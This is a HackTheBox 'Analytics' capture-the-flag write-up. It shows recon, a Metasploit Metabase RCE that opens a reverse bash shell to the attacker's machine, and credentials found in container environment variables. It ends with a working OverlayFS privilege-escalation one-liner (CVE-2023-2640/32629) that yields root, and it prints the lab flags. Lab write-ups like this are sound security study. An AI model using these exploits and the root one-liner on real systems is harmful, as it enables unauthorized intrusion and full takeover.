

# Analytics

:::info

Difficulty: Easy

Operating System: Linux

:::

## nmap 信息搜集

```plaintext title="sudo nmap -A --min-rate=5000 -T5 -p- 10.10.11.233"
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://analytical.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
```

## 探测 web 服务

```html title="http get 10.10.11.233:80"
HTTP/1.1 302 Moved Temporarily
Connection: keep-alive
Content-Length: 154
Content-Type: text/html
Date: Thu, 14 Mar 2024 01:52:53 GMT
Location: http://analytical.htb/
Server: nginx/1.18.0 (Ubuntu)

<html>
<head><title>302 Found</title></head>
<body>
<center><h1>302 Found</h1></center>
<hr><center>nginx/1.18.0 (Ubuntu)</center>
</body>
</html>
```

在 `/etc/hosts` 文件中添加解析记录后再次访问


在右上角的 `Login` 功能点，实质上是跳转到 `http://data.analytical.htb/` 的链接，再次在 `/etc/hosts` 文件中添加解析记录后再次访问



已知 Metabase 存在 CVE 漏洞，所以可以直接使用 Metasploit 进行攻击

```bash
msf6 exploit(linux/http/metabase_setup_token_rce) > show options

Module options (exploit/linux/http/metabase_setup_token_rce):

   Name       Current Setting      Required  Description
   ----       ---------------      --------  -----------
   Proxies                         no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.10.11.233         yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      3000                 yes       The target port (TCP)
   SSL        false                no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                    yes       The URI of the Metabase Application
   VHOST      data.analytical.htb  no        HTTP server virtual host


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.16.2       yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target

msf6 exploit(linux/http/metabase_setup_token_rce) > exploit

[*] Started reverse TCP handler on 10.10.16.2:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version Detected: 0.46.6
[+] Found setup token: 249fa03d-fd94-4d5b-b94f-b4ebf3df681f
[*] Sending exploit (may take a few seconds)
[*] Command shell session 1 opened (10.10.16.2:4444 -> 10.10.11.233:57118) at 2024-03-14 09:57:43 +0800

whoami
metabase
```

## 环境探测

### PEASS-ng

在脚本的执行结果中，注意到

```plaintext
╔══════════╣ Protections
═╣ AppArmor enabled? .............. AppArmor Not Found
═╣ AppArmor profile? .............. docker-default (enforce)
═╣ is linuxONE? ................... s390x Not Found
═╣ grsecurity present? ............ grsecurity Not Found
═╣ PaX bins present? .............. PaX Not Found
═╣ Execshield enabled? ............ Execshield Not Found
═╣ SELinux enabled? ............... sestatus Not Found
═╣ Seccomp enabled? ............... enabled
═╣ User namespace? ................ enabled
═╣ Cgroup2 enabled? ............... enabled
═╣ Is ASLR enabled? ............... Yes
═╣ Printer? ....................... No
═╣ Is this a virtual machine? ..... Yes

                                   ╔═══════════╗
═══════════════════════════════════╣ Container ╠═══════════════════════════════════
                                   ╚═══════════╝
╔══════════╣ Container related tools present (if any):
╔══════════╣ Am I Containered?
╔══════════╣ Container details
═╣ Is this a container? ........... docker
═╣ Any running containers? ........ No
╔══════════╣ Docker Container details
═╣ Am I inside Docker group ....... No
═╣ Looking and enumerating Docker Sockets (if any):
═╣ Docker version ................. Not Found
═╣ Vulnerable to CVE-2019-5736 .... Not Found
═╣ Vulnerable to CVE-2019-13139 ... Not Found
═╣ Rootless Docker? ............... No


╔══════════╣ Container & breakout enumeration
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout
═╣ Container ID ................... e38f48e8dca3

═╣ Container Full ID .............. /
═╣ Seccomp enabled? ............... enabled
═╣ AppArmor profile? .............. docker-default (enforce)
═╣ User proc namespace? ........... enabled         0          0 4294967295
═╣ Vulnerable to CVE-2019-5021 .... No

══╣ Breakout via mounts
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation/sensitive-mounts
═╣ /proc mounted? ................. Yes
═╣ /dev mounted? .................. No
═╣ Run ushare ..................... No
═╣ release_agent breakout 1........ No
═╣ release_agent breakout 2........ No
═╣ core_pattern breakout .......... No
═╣ binfmt_misc breakout ........... No
═╣ uevent_helper breakout ......... No
═╣ is modprobe present ............ lrwxrwxrwx    1 root     root            12 Jun 14 15:03 /sbin/modprobe -> /bin/busybox
═╣ DoS via panic_on_oom ........... No
═╣ DoS via panic_sys_fs ........... No
═╣ DoS via sysreq_trigger_dos ..... No
═╣ /proc/config.gz readable ....... No
═╣ /proc/sched_debug readable ..... No
═╣ /proc/*/mountinfo readable ..... No
═╣ /sys/kernel/security present ... Yes
═╣ /sys/kernel/security writable .. No

══╣ Namespaces
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/namespaces
total 0
lrwxrwxrwx    1 metabase metabase         0 Oct 10 14:07 cgroup -> cgroup:[4026532647]
lrwxrwxrwx    1 metabase metabase         0 Oct 10 14:07 ipc -> ipc:[4026532588]
lrwxrwxrwx    1 metabase metabase         0 Oct 10 14:07 mnt -> mnt:[4026532586]
lrwxrwxrwx    1 metabase metabase         0 Oct 10 14:07 net -> net:[4026532590]
lrwxrwxrwx    1 metabase metabase         0 Oct 10 14:07 pid -> pid:[4026532589]
lrwxrwxrwx    1 metabase metabase         0 Oct 10 14:07 pid_for_children -> pid:[4026532589]
lrwxrwxrwx    1 metabase metabase         0 Oct 10 14:07 time -> time:[4026531834]
lrwxrwxrwx    1 metabase metabase         0 Oct 10 14:07 time_for_children -> time:[4026531834]
lrwxrwxrwx    1 metabase metabase         0 Oct 10 14:07 user -> user:[4026531837]
lrwxrwxrwx    1 metabase metabase         0 Oct 10 14:07 uts -> uts:[4026532587]

╔══════════╣ Container Capabilities
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation#capabilities-abuse-escape
CapInh: 0000000000000000
CapPrm: 0000000000000000
CapEff: 0000000000000000
CapBnd: 00000000a00425f9
CapAmb: 0000000000000000
Run capsh --decode=<hex> to decode the capabilities

╔══════════╣ Privilege Mode
Privilege Mode is disabled

╔══════════╣ Interesting Files Mounted
526 467 8:2 /var/lib/docker/containers/e38f48e8dca3cd444001b7f83a37486531678e6dd7d5359de02c67a3e079fde6/resolv.conf /etc/resolv.conf rw,relatime - ext4 /dev/sda2 rw
527 467 8:2 /var/lib/docker/containers/e38f48e8dca3cd444001b7f83a37486531678e6dd7d5359de02c67a3e079fde6/hostname /etc/hostname rw,relatime - ext4 /dev/sda2 rw
528 467 8:2 /var/lib/docker/containers/e38f48e8dca3cd444001b7f83a37486531678e6dd7d5359de02c67a3e079fde6/hosts /etc/hosts rw,relatime - ext4 /dev/sda2 rw

╔══════════╣ Possible Entrypoints
-rwxr-xr-x    1 metabase metabase  828.5K Oct 10 14:07 /tmp/linpeas.sh
-rwxr-xr-x    1 root     root        6.8K Jun 29 20:39 /app/run_metabase.sh
```

说明这个 Metabase 是部署在 Docker 内的

### deepce

在脚本的执行结果中，注意到环境变量中存在凭据信息

```plaintext
====================================(Interesting Files)=====================================
[+] Interesting environment variables ... Yes
......
META_PASS=An4lytics_ds20223#
META_USER=metalytics
```

## User - metalytics

```bash
┌──(randark ㉿ kali)-[~]
└─$ pwncat-cs metalytics@10.10.11.233
[10:02:02] Welcome to pwncat 🐈!
Password: ******************
[10:02:20] 10.10.11.233:22: registered new host w/ db
(local) pwncat$ back
(remote) metalytics@analytics:/home/metalytics$ whoami
metalytics
```

### flag - user

```bash
(remote) metalytics@analytics:/home/metalytics$ cat user.txt
53039b0f294045968eda95de651b4669
```

### 环境探测

```bash
(remote) metalytics@analytics:/home/metalytics$ uname -a
Linux analytics 6.2.0-25-generic #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2 x86_64 x86_64 x86_64 GNU/Linux
```

直接利用 `CVE-2023-2640 (CVSS 7.8)` 和 `CVE-2023-32629 (CVSS 7.8)` 进行攻击

## User - root

```bash
(remote) metalytics@analytics:/home/metalytics$ unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
root@analytics:~# whoami
root
```

### flag - root

```bash
root@analytics:/root# cat root.txt
0f7d6fee56e47daabdf41eafb9b0ae3e
```

## 📚 Fuentes / Sources

- Autor notas: Apuromafo.

---

## ⚠️ Aviso Legal / Disclaimer

> **ES:** Uso educativo y personal únicamente. No afiliado a HackTheBox. No publicar flags de contenido activo.
> **EN:** Educational and personal use only. Not affiliated with HackTheBox. Do not publish active content flags.

_Fecha de edición: 2026-09-26_
